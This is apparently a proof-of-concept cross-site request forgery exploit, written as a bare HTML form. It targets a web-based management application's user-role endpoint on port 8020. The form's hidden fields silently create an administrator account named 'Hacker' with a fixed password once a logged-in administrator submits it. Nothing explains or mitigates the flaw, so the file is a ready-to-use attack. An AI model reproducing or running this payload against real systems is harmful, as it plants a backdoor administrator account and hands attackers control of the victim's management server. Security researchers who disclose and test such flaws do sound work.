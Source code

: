 <html>
  <!-- CSRF PoC - Add an admin account -->
  <body>
    <form action="http://<Server-IP>:8020/STATE_ID/1417736606982/roleMgmt.do?actionToCall=addUser&SUBREQUEST=XMLHTTP" method="POST">
      <input type="hidden" name="AuthenticationType" value="DC" />
      <input type="hidden" name="newDCAuthUserName" value="Hacker" />
      <input type="hidden" name="newDCAuthUserPassword" value="HackerPass" />
      <input type="hidden" name="DCAuthconfirmPassword" value="HackerPass" />
      <input type="hidden" name="newDCAuthUserEmail" value="" />
      <input type="hidden" name="newDCAuthUserPNumber" value="" />
      <input type="hidden" name="newADAuthUserEmail" value="" />
      <input type="hidden" name="newADAuthUserPNumber" value="" />
      <input type="hidden" name="MapType" value="ALL" />
      <input type="hidden" name="aduserSearch" value="" />
      <input type="hidden" name="searchValue" value="Search" />
      <input type="hidden" name="aduserSearchRO" value="" />
      <input type="hidden" name="searchValue" value="Search" />
      <input type="hidden" name="action1" value="DC&#95;ADD&#95;USER" />
      <input type="hidden" name="addUser" value="Add&#32;User" />
      <input type="hidden" name="cancle" value="Cancel" />
      <input type="hidden" name="customerids" value="" />
      <input type="hidden" name="roleListDCAuth" value="1" />
      <input type="hidden" name="PERSONALISE&#95;LANGUAGE" value="en&#95;US" />
      <input type="hidden" name="domainListADAuth" value="&#45;1" />
      <input type="hidden" name="roleListADAuth" value="&#45;1" />
      <input type="hidden" name="PERSONALISE&#95;LANGUAGE" value="en&#95;US" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

